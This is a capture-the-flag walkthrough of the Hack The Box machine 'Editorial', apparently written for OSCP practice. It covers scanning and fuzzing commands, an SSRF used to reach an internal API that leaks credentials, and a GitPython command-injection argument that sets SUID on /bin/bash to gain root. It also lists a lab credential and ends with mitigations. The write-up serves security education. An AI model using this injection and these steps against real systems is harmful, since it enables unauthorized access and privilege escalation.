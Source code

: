 ```yaml
---
title: Editorial
date: 2025-06-22
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, SSRF, ffuf-request, .git, pythongit, sudo-git.Repo-privesc] 
image: edit.png
media_subpath: /assets/img/posts/2025-06-22-editorialHTB/
---
```


## Introduction

In this walkthrough, I worked on an **easy Linux machine** from HTB called *Editorial*. While analyzing the web application, I discovered an endpoint that made external HTTP requests — a clear indicator of **Server-Side Request Forgery (SSRF)**. I used `ffuf` to fuzz internal services and discovered API endpoint running on `localhost`. By querying this endpoint, I retrieved **shell credentials** and gained initial access. During post-exploitation, I read **Git logs** in a home directory and found additional credentials for **lateral movement**. Finally, I discovered that a Python script was using the vulnerable `git.Repo` class from the **pythongit** module. I exploited this to gain **root shell** access.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

## Web

### Port 80

Add the domain to `/etc/hosts` file.

```bash
**feroxbuster -u http://editorial.htb/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%202.png)

```bash
gobuster dir -u http://$IP:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

![image.png](image%203.png)

**Vhost Fuzzing**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://editorial.htb/ -H 'Host: FUZZ.editorial.htb' -fs 178
```

![image.png](image%204.png)

Clicking on `Preview` it sends a request to the specified endpoint, when sending the request to `http://10.10.14.23` (my IP)  it returned:

![image.png](image%205.png)

When sending it to `http://127.0.0.1` it returned:

![image.png](image%206.png)

<aside>
💡

This is SSRF kind of vulnerability where we can make a request as server to somewhere else, we should find an endpoint where we can send that request, and this endpoint in most cases is open internally just for localhost.

</aside>

As making request to our IP returned no `.jpg` image I am gonna try brute-force ports and find one that does not return a `jpg` image.

As fuzzing this with `wfuzz` will be hard, I am gonna use `ffuf`:

```bash
ffuf -request portfuzzing -request-proto http -w <(seq 1 65535) -fs 61
```

![image.png](image%207.png)

Accessing the endpoint, it downloads some file and I opened it. It is in json format, let’s pretty-print it.

![image.png](image%208.png)

I found other endpoints of API, I am gonna send requests to those endpoints.

Interesting endpoints are `log` and `messages to authors`:

![image.png](image%209.png)

![image.png](image%2010.png)

Nothing interesting in `logs`:

![image.png](image%2011.png)

Using credentials I got access to ssh.

## Shell as dev

There is another user `prod`:

![image.png](image%2012.png)

I found `apps` directory going there I found that it is `bare` repo, I checked status and commits:

```bash
git log
```

![image.png](image%2013.png)

```bash
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

![image.png](image%2014.png)

## Shell as prod

![image.png](image%2015.png)

```bash
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

It uses Python `Repo` module to clone repo.

I found the following [exploit](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% +s% /bin/bash'
```

Using the above command gave SUID bit to `/bin/bash` :

```bash
/bin/bash -p
```

![image.png](image%2016.png)

## Credentials

```bash
dev:dev080217_devAPI!@
```

## Mitigation

- Implement strict **SSRF protections**: restrict internal IP ranges and validate external request targets.
- Avoid exposing sensitive internal APIs to frontend-facing applications.
- Sanitize and restrict access to `.git` directories and **Git logs** in production environments.
- Avoid using insecure libraries or classes like `git.Repo` for untrusted input. Always validate repository sources.
- Apply **principle of least privilege** to prevent lateral movement and limit damage from compromised users.
